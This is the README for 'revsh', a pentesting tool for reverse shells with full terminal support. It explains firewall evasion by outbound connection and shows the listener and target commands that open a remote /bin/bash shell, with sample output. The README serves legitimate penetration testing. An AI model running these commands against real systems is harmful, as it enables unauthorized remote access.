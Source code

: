 # revsh #

_revsh_ is a tool for establishing reverse shells with full [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support.

**What is a "reverse shell"?**

A [reverse shell](http://www.sans.edu/student-files/presentations/LVReverseShell.pdf) is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. [sudo](http://en.wikipedia.org/wiki/Sudo))
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features in a small (~20k) easy to use binary.

**Where can I use _revsh_?**

_revsh_ was developed and tested on Linux x86_64. It hasn't been tested on other platforms, but it should port reasonably easily.

## Usage ##

	usage: revsh [-l [-e ENV_ARGS]] [-s SHELL] ADDRESS PORT

* -l: Setup the listener.
* -e ENV_ARGS: Export this list of environment args from the listeners environment back to the connector. (Default is "TERM".)
* -s SHELL: Invoke your favorite SHELL. (Default is /bin/sh.)
* ADDRESS PORT: Connect to (or listen at) this ADDRESS and PORT number.

## Example ##

First, setup the listener on the local host:

	empty@monkey:~$ revsh -l 192.168.0.42 9999

Then connect out from the remote host:

	target@kitty:~$ ./revsh -s /bin/bash 192.168.0.42 9999
	
We will now find a shell waiting for us back at the listener:

	empty@monkey:~$ revsh -l 192.168.0.42 9999
	Listening...	Connected!
	Initializing...	Done!
	################################
	# hostname: kitty
	# ip address: 192.168.0.6
	# username: target
	################################
	target@kitty:/$ ls -l /etc/passwd 
	-rw-r--r-- 1 root root 1375 Jul  2 10:24 /etc/passwd

## Installation ##

	git clone git@github.com:emptymonkey/revsh.git
	cd revsh
	make

## A Quick Note on Ethics ##

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.

